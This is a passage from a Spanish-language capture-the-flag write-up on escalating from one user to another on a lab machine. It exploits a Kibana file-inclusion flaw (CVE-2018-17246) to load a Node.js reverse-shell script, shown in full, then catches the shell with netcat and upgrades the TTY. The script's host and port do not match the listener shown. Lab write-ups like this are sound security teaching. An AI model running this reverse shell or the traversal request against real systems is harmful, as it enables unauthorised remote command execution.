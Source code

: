 Y encontramos el puerto 5601 perteneciente a kibana. Recuerdo la página de github que hablan de la explotación; [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246).

Somos el usuario Security, entiendo que si la explotamos podremos convertirnos en el usuario que corre kibana.
```bash
[security@haystack ~]$ ps -faux | grep kibana
kibana     6335  0.4  5.3 1355892 208148 ?      Ssl  04:18   2:10 /usr/share/kibana/bin/../node/bin/node --no-warnings /usr/share/kibana/bin/../src/cli -c /etc/kibana/kibana.yml
security  16502  0.0  0.0 112728   968 pts/0    S+   11:47   0:00              \_ grep --color=auto kibana
```
El usuario que corre kibana es kibana.

Siguiendo la página del exploit. Alojaremos en la máquina víctima un shell.js que nos dará una reverse shell cuando llamemos al recurso desde el servicio de kibana. Piensa que la CVE es realmente solo un LFI, pero como podemos escribir archivos dentro de la máquina (ya que estamos dentro) podemos conseguir la reverse.
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "172.18.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```
```bash
[security@haystack shm]$ pwd
/dev/shm
[security@haystack shm]$ ls
shell.js
[security@haystack shm]$ chmod +x shell.js 
```
```bash
[security@haystack shm]$ curl -X GET "http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/shell.js"
```
Y desde mi máquina local en escucha:
```bash
❯ nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.115] 34306
whoami
kibana
```
He realizado un pivoting de usuarios.

Toca hacer el tratamiento de la tty
```bash
script /dev/null -c bash
This account is currently not available.
Script iniciado; el fichero es /dev/null
# No se puede realizar el tratamiento típico. Probaré con python
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.2$ ^Z
zsh: suspended  nc -nlvp 444
```
Y desde local:
```bash
stty raw -echo; fg
    reset xterm
```